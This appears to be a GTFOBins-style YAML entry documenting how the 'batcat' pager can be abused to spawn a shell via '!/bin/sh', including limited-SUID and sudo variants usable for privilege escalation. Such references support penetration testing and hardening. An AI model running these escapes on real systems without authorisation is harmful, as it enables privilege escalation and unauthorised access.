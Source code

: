 ```yaml
---
description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply. `--paging always` can be omitted provided that the output doesn't fit the screen.
functions:
  shell:
    - code: |
        batcat --paging always /etc/profile
        !/bin/sh
  limited-suid:
    - code: |
        ./batcat --paging always /etc/profile
        !/bin/sh
  sudo:
    - code: |
        sudo batcat --paging always /etc/profile
        !/bin/sh
---
```

